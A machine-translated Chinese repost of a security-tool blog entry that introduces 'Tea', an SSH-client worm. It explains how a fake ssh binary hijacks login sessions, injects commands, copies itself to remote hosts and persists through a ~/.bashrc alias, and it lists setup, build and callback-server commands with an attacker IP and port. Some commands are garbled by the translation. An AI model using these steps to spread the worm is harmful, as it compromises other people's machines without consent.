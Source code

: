 # tea:SSH-客户端蠕虫

> 原文：<https://kalilinuxtutorials.com/tea-ssh-client-worm/>

[![Tea : SSH-Client Worm](img//f8e66930246945357787c5bff0faeaa5.png "Tea : SSH-Client Worm")](https://1.bp.blogspot.com/-fmNhHYILv1Q/XnEk2HNUIUI/AAAAAAAAFhc/E-cRTdZS33oo7cyh--GecPTqpZiKBWAwQCLcBGAsYHQ/s1600/TEA.png)

**Tea** 是一个用 tas 框架制作的 ssh-client 蠕虫。

它是如何工作的？

这是一个 fakessh 客户端，它操纵 tty 输入/输出来执行任意命令，并通过 ssh 连接上传自身。

为了正常工作，远程机器需要:

*   登录时显示“上次登录”消息。
*   Dd 和 stty
*   使用 bash 作为默认 shell 的目标用户。
*   运行 fakessh 二进制文件的能力。
*   可写~/。bashrc
*   感染本地机器:

**mkdir ~/。sshworm
cp ssh ~/。sshworm
别名 ssh='~/。sshworm/ssh'**

第一次执行 fakessh 时，它不会显示任何内容，将执行`**post-install.c**`中的代码，并将字符串`**alias ssh="~/.sshworm/ssh"**`写入~/。bashrc:

$ ssh
$ ssh
用法:ssh[-46 aacfg gkkmnnqsttvvxyy][-B bind _ interface]
[-B bind _ address][-c cipher _ spec][-D[bind _ address:]port]
[-E log _ file][-E escape _ char][-F config file][-I pkcs11]
[-I identity _ file][-J[user @]host[:port]][-L address]【T5

**传遍世界**

现在只要连接到某个 ssh 服务器，满足程序运行的条件，机器就会被感染，机器也会通过它被访问，等等。

**也读作-[bet with:基于 Chrome Devtools 网络面板的 Web 调试代理](https://kalilinuxtutorials.com/betwixt/)**

**tty 操作**:

当执行 fakessh 时，它将等待字符串“Last login”来启动 I/O 操作(output-hooks.c)，当收到“Last login”时，它将发送一些任意命令(inject-cmd.c)并将等待命令结果(output-hooks.c)，如果文件~/。sshworm/ssh 在远程机器上不存在，那么蠕虫会上传自己(upload.c)。

更多细节见 output-hooks.c。

**卸载**:

**$ rm -rf ~/。sshworm
$ perl -i -pe 的；别名 ssh="~/。ssh worm/ssh "；；g' ~/。bashrc
$ unalias ssh**

**编译**

我们推荐使用 musl-libc，或者其他不是 glibc 的 libc，使用 glibc 编译的二进制文件比使用 musl-libc 编译的二进制文件大 17 倍。

**获取源代码:**

**$ git 克隆–递归子模块 https://github.com/hc0d3r/tea**

**构建选项**:

| 名字 | 描述 |
| --- | --- |
| 互联网协议(Internet Protocol) | 要连接的远程 IPv4 |
| 港口 | 要连接的远程端口 |

**举例**:

**$ make CC = musl-gcc IP = my-IP v4 PORT = 1234**

**服务器**

我们制作了一个简单的服务器来处理在执行 post-install.c 中的代码时接收到的连接。

服务器机制非常简单，当一个新的连接建立时，它执行一个新的命令，并通过命令行传递连接文件描述符，因此执行的程序将能够处理连接。

**编译**

**$ cd 服务器
$ make
cc-Wall-Wextra-O3-c net . c-o net . o
cc-Wall-Wextra-O3-c replace . c-o
cc-Wall-Wextra-O3-c term . c-o term . o
cc-Wall-Wextra-O3-c main . o
cc-Wall-Wextra-O3-o server net . o replace . o term . o main . o**

**演示**

![](img//3af7753fdcf75288969b5370b0fb27d2.png)[**Download**](https://github.com/hc0d3r/tea)